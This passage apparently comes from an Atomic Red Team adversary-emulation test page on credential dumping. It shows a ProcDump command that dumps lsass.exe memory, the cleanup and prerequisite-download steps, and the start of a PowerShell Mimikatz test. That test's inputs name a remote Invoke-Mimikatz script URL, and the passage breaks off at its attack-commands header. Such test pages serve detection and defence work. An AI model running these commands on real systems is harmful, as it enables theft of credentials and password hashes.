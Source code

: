 
```cmd
#{procdump_exe} -accepteula -mm lsass.exe #{output_file}
```

#### Cleanup Commands:
```cmd
del "#{output_file}" >nul 2> nul
```



#### Dependencies:  Run with `powershell`!
##### Description: ProcDump tool from Sysinternals must exist on disk at specified location (#{procdump_exe})
##### Check Prereq Commands:
```powershell
if (Test-Path #{procdump_exe}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest "https://download.sysinternals.com/files/Procdump.zip" -OutFile "$env:TEMP\Procdump.zip"
Expand-Archive $env:TEMP\Procdump.zip $env:TEMP\Procdump -Force
New-Item -ItemType Directory (Split-Path #{procdump_exe}) -Force | Out-Null
Copy-Item $env:TEMP\Procdump\Procdump.exe #{procdump_exe} -Force
```




<br/>
<br/>

## Atomic Test #10 - Powershell Mimikatz
Dumps credentials from memory via Powershell by invoking a remote mimikatz script.
If Mimikatz runs successfully you will see several usernames and hashes output to the screen.
Common failures include seeing an \"access denied\" error which results when Anti-Virus blocks execution. 
Or, if you try to run the test without the required administrative privileges you will see this error near the bottom of the output to the screen "ERROR kuhl_m_sekurlsa_acquireLSA"

**Supported Platforms:** Windows


**auto_generated_guid:** 66fb0bc1-3c3f-47e9-a298-550ecfefacbc





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_script | URL to a remote Mimikatz script that dumps credentials | url | https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f650520c4b1004daf8b3ec08007a0b945b91253a/Exfiltration/Invoke-Mimikatz.ps1|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 
